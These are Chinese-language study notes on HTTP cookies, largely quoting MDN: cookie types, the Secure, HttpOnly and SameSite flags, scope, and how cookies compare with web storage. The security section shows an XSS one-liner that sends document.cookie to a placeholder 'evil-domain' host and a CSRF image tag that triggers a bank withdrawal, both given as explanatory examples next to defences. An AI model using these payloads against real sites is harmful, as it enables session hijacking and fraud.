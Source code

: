 # cookie

cookie本质上是存储数据的地方。

## MDN

`HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。`

cookie 主要用于三个方面：

- 会话状态管理（如用户的登陆状态，购物车，游戏分数或其他需要记录的信息）
   
   比如我们正在聊天，你怎么确定我是本人呢？就需要一个验证身份的东西。
- 个性化设置（如用户自定义设置、主题）

   在常见的后台管理系统，有一个角色设置的东西，在这个用户下次进来的时候，还要保持上一次的设置，和角色。

- 浏览器行为跟踪（如跟踪分析行为）
    
    ga用户分析，类似于埋点。

### 会话期的cookie

`会话期Cookie是最简单的Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。`

### 持久性的cookie
`
和关闭浏览器便失效的会话期Cookie不同，持久性Cookie可以指定一个特定的过期时间（Expires）或有效期（Max-Age）。
`

expires或者有效期一过，cookie就无效了。

### Cookie的Secure 和HttpOnly 标记

`标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端。但即便设置了 Secure 标记，敏感信息也不应该通过Cookie传输，因为Cookie有其固有的不安全性，Secure 标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。`


`为避免跨域脚本 (XSS) 攻击，通过JavaScript的 Document.cookie API无法访问带有 HttpOnly 标记的Cookie，它们只应该发送给服务端。如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 HttpOnly 标记。`

设置httponly后，客户端没有读写的权限

### Cookie的作用域

`Domain 和 Path 标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。`

`Domain 标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了Domain，则一般包含子域名。`

`例如，如果设置 Domain=mozilla.org，则Cookie也包含在子域名中（如developer.mozilla.org）。`

`Path 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。`

### SameSite Cookies

`SameSite Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前SameSite Cookie还处于实验阶段，并不是所有浏览器都支持。`

### 如何在javascript获取到cookie

`通过Document.cookie属性可创建新的Cookie，也可通过该属性访问非HttpOnly标记的Cookie。`

## 安全

### 会话劫持和XSS节

`在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。`

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。`

### 跨站请求伪造（CSRF）
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

`
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：1.对用户输入进行过滤来阻止XSS；
任何敏感操作都需要确认；
用于敏感信息的Cookie只能拥有较短的生命周期；`

## cookie 跟localStorage 、sessionStorage的区别。

local storage 容量大，本地存储

session storage 页面打开到关闭，存储在窗口

cookie 容量小
